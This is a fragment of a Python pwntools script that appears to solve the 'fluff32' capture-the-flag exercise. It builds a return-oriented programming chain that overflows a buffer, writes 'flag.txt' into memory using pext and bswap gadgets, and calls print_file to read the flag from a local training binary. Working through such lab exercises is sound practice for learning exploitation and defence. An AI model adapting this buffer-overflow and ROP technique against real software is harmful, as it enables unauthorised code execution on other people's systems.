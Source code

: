 ```python
        if bit == tbit:
            mask_bits.append(1)
            ti += 1
        else:
            mask_bits.append(0)

    # set mask 
    mask_bits.reverse()
    mask = 0
    # turn bit list to int
    for bit in mask_bits:
        mask = (mask << 1) | bit
    payload += p32(pop_ebp) + p32(mask)

    # call pext gadget
    payload += p32(gadget1)
    return payload

# set address to write to
def set_address(addr):
    payload = b''
    # default byte order is little
    # gadget3 will switch byte order
    # from big to little
    ecx = p32(addr, endian='big')
    payload += p32(gadget3) + ecx
    return payload

# write byte string s
# to address addr
def write_string(addr, s):
    payload = b''
    for i in range(0, len(s)):
        c = s[i]
        payload += set_byte(c)
        payload += set_address(addr + i)
        # writes byte
        payload += p32(gadget2)     
    return payload

# create payload
payload = b'A' * 44
fname = b'flag.txt'
payload += write_string(write_addr, fname)
payload += p32(print_file_addr) + p32(pop_ebp) + p32(write_addr)

# send payload + receive flag
io = process('./fluff32')
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
